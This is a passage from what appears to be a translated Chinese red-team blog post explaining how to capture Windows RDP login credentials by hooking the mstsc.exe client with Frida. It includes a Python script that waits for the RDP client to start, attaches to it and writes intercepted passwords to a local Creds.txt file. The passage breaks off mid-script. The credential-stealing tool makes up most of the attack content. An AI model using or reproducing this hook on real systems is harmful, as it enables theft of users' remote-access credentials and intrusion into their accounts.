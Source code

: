
**No.5 RDP**

拜读 MDSec 与 Red Teaming Experiments 的博客后，我心想，肯定能找到一种简单的方法来钩取 RDP 凭证。

下面，让我们来对比一下 Graphical Runas 的提示与 RDP 的登录提示，它们看起来非常接近：

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW6o36ZrKicEHhCJd5dnJyuoI9bl0ibZaQthhgPeXHzDpzFE4OEQEshwkasIFsxV68Pia5e11Fuspnmw/640?wx_fmt=png)

那么，它们是否使用的是同一个 API 调用呢？让我们来试试看。

使用与 Credentials Prompt 完全相同的脚本，我们仍然能够获得 RDP 凭证！

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW6o36ZrKicEHhCJd5dnJyuoibcSU39jE2MJEx0JPNT1SCGS5gyiccaTr7IQ6H8KzEVpRQxibvVTysWfA/640?wx_fmt=png)

剩下的事情，就是编写相应的 python 脚本了，具体代码如下所示：

```
# Wrriten by Ilan Kalendarov

from __future__ import print_function
import frida
from time import sleep
import psutil
from threading import Lock, Thread
import sys

# Locking the mstsc thread to prevent other threads

#interfering with our current session
lockRDP= Lock()  

def on_message_rdp(message, data):
  # Executes when the user enters the password.
  # Then, open the txt file and append the data.
  print(message)
  if message['type'] == "send":
    with open("Creds.txt", "a") as f:
      f.write(message["payload"] + '\n')
    try:
      lockRDP.release()
      print("[+] released")
    except Exception:
      pass


def WaitForRDP():
  while True:
    # Trying to find if mstsc is running if so, execute the "RunAs" function.
    if ("mstsc.exe" in (p.name() for p in psutil.process_iter())) and not lockRDP.locked():
      lockRDP.acquire() # Locking the mstsc thread
      print("[+] Found RunAs")
      RDP()
      sleep(0.5)

    # If the user regret and they close mstsc then we will release the thread lock and start over.
    elif (not "mstsc.exe" in (p.name() for p in psutil.process_iter())) and lockRDP.locked():
      lockRDP.release()
      print("[+] RDP is dead releasing lock")
    else:
      pass
    sleep(0.5)

def RDP():
  try:
    # Attaching to the mstsc process
    print("[+] Trying To Attach To RDP")
```